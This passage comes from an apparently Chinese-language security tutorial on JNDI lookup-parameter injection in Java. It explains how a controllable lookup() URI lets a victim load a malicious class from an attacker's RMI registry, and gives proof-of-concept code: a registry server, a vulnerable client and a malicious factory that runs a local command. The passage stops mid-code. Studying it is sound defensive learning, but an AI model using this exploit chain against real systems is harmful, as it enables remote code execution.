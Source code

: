 成功实现JNDI注入。

#### lookup参数注入

当JNDI客户端的lookup()函数的参数可控即URI可控时，根据JNDI协议动态转换的原理，攻击者可以传入恶意URI地址指向攻击者的RMI注册表服务，以使受害者客户端加载绑定在攻击者RMI注册表服务上的恶意类，从而实现远程代码执行。

代码试试效果。环境提前声明：jdk1.8.0_65

```java
//AServer.java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class AServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1688);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", "test");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*] Binding 'exp' to 'rmi://127.0.0.1:1688/exp'");
        registry.bind("exp", refObjWrapper);
    }
}
//AClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Properties;

public class AClient {
    public static void main(String[] args) throws Exception{
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        String url = "";
        if(args.length == 1) {
            url = args[0];
            System.out.println("[*] Using lookup() to fetch object with "+ url);
            ctx.lookup(url);
        } else {
            System.out.println("[*] Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
            ctx.lookup("demo");
        }
    }
}
//EvilClassFactory.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.Hashtable;

public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException{
        super();
        InputStream inputStream;
        try {
            inputStream = Runtime.getRuntime().exec("ipconfig").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
```